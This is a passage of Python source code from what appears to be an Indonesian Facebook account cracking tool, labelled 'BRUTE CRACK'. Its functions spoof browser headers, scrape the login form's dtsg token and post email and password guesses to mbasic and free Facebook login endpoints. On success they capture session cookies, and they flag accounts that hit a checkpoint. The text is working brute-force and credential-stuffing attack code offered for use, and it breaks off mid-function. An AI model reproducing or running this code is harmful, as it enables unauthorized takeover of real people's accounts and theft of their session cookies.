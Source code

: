 def check_ugent():
    try:
        ungser = open('ugent.txt', 'r').read()
    except IOError:
        ungser = ("%s[%s!%s] %sUser Agent Tidak Ditemukan"%(k,p,k,p))
    except:pass
    print ("\n%s[%s•%s] %sUser Agent : \n\n%s%s"%(k,p,k,p,h,ungser))
    input(k+"\n[ "+p+"Back"+k+" ]"+p)
    menu()

### BRUTE CRACK ###

def mbasic(em,pas,hosts):
	ua = open('ugent.txt', 'r').read()
	r=requests.Session()
	r.headers.update({"Host":"mbasic.facebook.com","cache-control":"max-age=0","upgrade-insecure-requests":"1","user-agent":ua,"accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8","accept-encoding":"gzip, deflate","accept-language":"id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7"})
	p=r.get("https://mbasic.facebook.com/")
	b=bs4.BeautifulSoup(p.text,"html.parser")
	meta="".join(bs4.re.findall('dtsg":\{"token":"(.*?)"',p.text))
	data={}
	for i in b("input"):
		if i.get("value") is None:
			if i.get("name")=="email":
				data.update({"email":em})
			elif i.get("name")=="pass":
				data.update({"pass":pas})
			else:
				data.update({i.get("name"):""})
		else:
			data.update({i.get("name"):i.get("value")})
	data.update(
		{"fb_dtsg":meta,"m_sess":"","__user":"0",
		"__req":"d","__csr":"","__a":"","__dyn":"","encpass":""
		}
	)
	r.headers.update({"referer":"https://mbasic.facebook.com/login/?next&ref=dbl&fl&refid=8"})
	po=r.post("https://mbasic.facebook.com/login/device-based/login/async/?refsrc=https%3A%2F%2Fm.facebook.com%2Flogin%2F%3Fref%3Ddbl&lwv=100",data=data).text
	if "c_user" in list(r.cookies.get_dict().keys()):
		return {"status":"success","email":em,"pass":pas,"cookies":r.cookies.get_dict()}
	elif "checkpoint" in list(r.cookies.get_dict().keys()):
		return {"status":"cp","email":em,"pass":pas,"cookies":r.cookies.get_dict()}
	else:return {"status":"error","email":em,"pass":pas}

def f_fb(em,pas,hosts):
	ua = open('ugent.txt', 'r').read()
	r=requests.Session()
	r.headers.update({"Host":"free.facebook.com","cache-control":"max-age=0","upgrade-insecure-requests":"1","user-agent":ua,"accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8","accept-encoding":"gzip, deflate","accept-language":"id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7"})
	p=r.get("https://free.facebook.com/")
	b=bs4.BeautifulSoup(p.text,"html.parser")
	meta="".join(bs4.re.findall('dtsg":\{"token":"(.*?)"',p.text))
	data={}
	for i in b("input"):
		if i.get("value") is None:
			if i.get("name")=="email":
				data.update({"email":em})
			elif i.get("name")=="pass":
				data.update({"pass":pas})